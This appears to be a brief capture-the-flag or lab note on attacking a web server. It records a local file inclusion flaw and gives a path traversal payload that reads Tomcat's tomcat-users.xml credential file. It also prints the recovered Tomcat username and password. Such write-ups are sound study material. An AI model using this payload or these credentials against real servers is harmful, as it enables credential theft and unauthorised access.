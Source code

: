 # Web server on 80

![[Pasted image 20211213120635.png]]

LFI Exploitable
![[Pasted image 20211213120700.png]]

Cant RCE on this LFI.
Searching for users of tomcat server (tomcat 9)
payload;
```bash
../../../../usr/share/tomcat9/etc/tomcat-users.xml
```

![[Pasted image 20211213121637.png]]

Creds:tomcat:$3cureP4s5w0rd123